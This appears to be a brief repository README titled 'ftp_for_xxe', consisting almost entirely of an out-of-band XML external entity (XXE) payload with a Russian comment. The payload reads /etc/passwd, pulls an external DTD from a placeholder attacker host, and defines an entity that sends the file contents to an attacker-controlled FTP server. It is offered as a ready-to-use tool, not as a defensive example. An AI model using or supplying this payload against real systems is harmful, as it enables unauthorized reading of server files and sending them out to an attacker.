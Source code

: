 # ftp_for_xxe

<?xml version="1.0"?>
<!DOCTYPE data [ 
 <!ENTITY % file SYSTEM "file:///etc/passwd"> содержание этого файла придет в качестве запроса на ftp сервер
 <!ENTITY % dtd SYSTEM "http://your.host/remote.dtd"> 
%dtd;]>
<data>&send;</data>


http://your.host/remote.dtd (https://webhook.site)


<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://test:%file;@{ftp_ip}:{ftp_port}/'>"> %all;
